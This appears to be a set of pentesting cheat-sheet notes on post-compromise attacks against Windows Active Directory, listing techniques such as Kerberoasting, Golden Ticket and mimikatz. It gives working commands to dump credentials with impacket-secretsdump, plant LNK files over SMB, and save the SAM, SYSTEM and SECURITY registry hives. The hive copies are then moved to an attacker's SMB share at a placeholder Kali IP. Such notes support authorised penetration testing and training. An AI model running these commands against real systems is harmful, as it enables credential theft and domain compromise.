 # Windows Active Directory Pentesting

## Post compromise attacks

- [kali impacket - secrets dump](https://www.kali.org/tools/impacket/)
    - `impacket-secretsdump DC.LOCAL/USER:'PASSWORD'@$IP`
    - running secretsdump as local:
        - `impacket-secrestsdump -sam sam.save -security security.save -system system.save LOCAL`
- [Kerberoasting](./kerberoasting.md)
- [ASREPRoasting](./ASREPRoasting.md)
    - [más material](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
    - Cuando comprometemos una cuenta, un ataque para empezar es este.
- Token impersonation attack
    - psexec
    - [mimikatz](./mimikatz.md)
    - [pypykatz](./pypykatz.md)
    - [Golden Ticket Attack](./goldenTicketAttack.md)
        - [Extra sids Attack](./extraSidsAttack.md)
    - [AddKeyCredentialLink/Shadow Credentials Attack](./addKeyCredentialLink.md)
    - [Backup Operator to Domain Admin](./backupOperatorToDomainAdmin.md)
    - [DPAPI Attack](./dpapiAttack.md)
    - [Resource-Based Constrained Delegation](./resourceBasedConstrainedDelegation.md)
    - [GMSA abusing and s4u delegation attack](./gmsaAbusing.md)
    - [RID cycling attack](./ridCyclingAttack.md)
    - [MSSQL Microsoft SQL Server attacks](./mssql.md)
- [LNK File Attacks](./lnk-attacks.md): `nxc smb 172.16.139.0/24 -u 'pthorpe' -p creds.txt -M slinky -o SERVER=172.16.139.10 NAME=urgent`

### Post compromise attack strategy
- 1st
    - [kerberoasting](./kerberoasting.md)
    - [ASREPRoasting](./ASREPRoasting.md)
    - secretsdump
    - pass the hash
- 2nd: big deep
    - enum bloodhound
    - old vulns

### An other post compromise attack strategy
#### Attacking SAM
- [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager)
##### Copying SAM Registry Hives
- hklm\sam
- hklm\system
- hklm\security
- We can create backups of these hives using the reg.exe utility.

#### Using reg.exe save to copy registry hives.
 ```
 C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a Share with impacket-smbserver
`impacket-smbserver -smb2support shareName someDir`

#### Moving hive copies to share
```
C:\> move sam.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move security.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move system.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.
```
